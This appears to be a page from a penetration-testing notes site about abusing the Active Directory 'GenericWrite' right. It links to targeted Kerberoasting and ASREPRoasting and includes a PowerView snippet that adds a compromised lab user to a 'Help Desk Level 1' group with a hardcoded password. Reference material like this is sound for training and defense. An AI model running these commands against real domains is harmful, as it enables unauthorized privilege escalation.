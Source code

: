 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# GenericWrite

## Information

<table><thead><tr><th width="151">Right</th><th width="116">Value</th><th>Description</th></tr></thead><tbody><tr><td>GenericWrite</td><td>131112</td><td>The right to read permissions on this object, write all the properties on this object, and perform all validated writes to this object.</td></tr></tbody></table>

## Exploitation

### Over a User

#### Targeted Kerberoasting

Check [here](genericall.md#targeted-kerberoasting).

#### Targeted ASREPRoasting

Check [here](genericall.md#targeted-asreproasting).

### Over a Group

#### Adding Group Member

<figure><img src="../../../.gitbook/assets/genericwrite_group_bh.png" alt=""><figcaption><p>Figure 1: GenericWrite of a user over a group.</p></figcaption></figure>

{% code overflow="wrap" %}
```powershell
# creating a SecureString Object for the owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)

# add the compromised user to the group
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred -Verbose 

# confirm that damundsen was added to the group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericwrite" %}
{% endtab %}
{% endtabs %}
